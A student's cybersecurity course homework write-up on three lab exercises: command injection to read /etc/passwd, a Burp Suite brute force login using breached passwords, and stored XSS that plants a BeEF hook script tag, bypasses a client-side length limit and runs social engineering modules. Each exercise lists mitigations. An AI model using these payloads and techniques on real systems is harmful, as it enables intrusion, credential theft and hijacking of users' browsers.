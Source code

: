 Unit 15 Homework: Web Vulnerabilities and Hardening

Web Application 1: Your Wish is My Command Injection

This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
This type of injection attack is called Command Injection, and it is dependent on the web application taking user input to run a command against an operating system.
Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

/etc/passwd

![](Images/Web_Vuln1.png)

/etc/hosts

![](Images/Web_Vuln2.png)

Mitigation Strategies:

    Limit input from user and input validation.  In this case the web application is calling for IP address/es, input should be limited to IP address/es strings and should return an error for anything that is otherwise specified.  Restrict web server accessibility following the principle of least privilege to prevent confidential information access.


Web Application 2: A Brute Force to Be Reckoned With
Complete the following steps to set up the activity.

Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.

If the user/password combination is correct, it will return a successful message.

If the user/password combination is incorrect, it will return the message, "Invalid credentials."


Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.

You've been provided with a list of administrators and the breached passwords:

List of Administrators
Breached list of Passwords

Generate a login request and capture the traffic using Burp Suite.  Send the HTTP request to Burp Intruder.

![](Images/Web_Vuln3.png)

Identify the payload positions which is the username and password 

![](Images/Web_Vuln4.png)

Update the Burp Intruder username payload for payload set 1

![](Images/Web_Vuln5.png)

Updated the Burp Intruder password payload for payload set 2

![](Images/Web_Vuln6.png)

Successful brute force attack. Image showing the successful payload combination.

![](Images/Web_Vuln7.png)

Mitigation Strategies:
        
        Complex username and password,  Multi-Factor authentication, CAPTCHA to slow down credential stuffing, prevent automated login and lock accounts after several failed attempts.

Web Application 3: Where's the BeEF?

Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.

Max Character set limit is 50.

![](Images/Web_Vuln8.png)

Increase max character limit to 75 to successfully inject script.

![](Images/Web_Vuln9.png)

Verify that the script is successfully embedded.

![](Images/Web_Vuln10.png)

Social Engineering >> Pretty Theft

![](Images/Web_Vuln11.png)

Social Engineering >> Fake Notification Bar

![](Images/Web_Vuln12.png)

Host >> Get Geolocation (Third Party)

![](Images/Web_Vuln13.png)

Mitigation Strategy:

    Service-side input validation to prevent scripts from being stored on web applications.
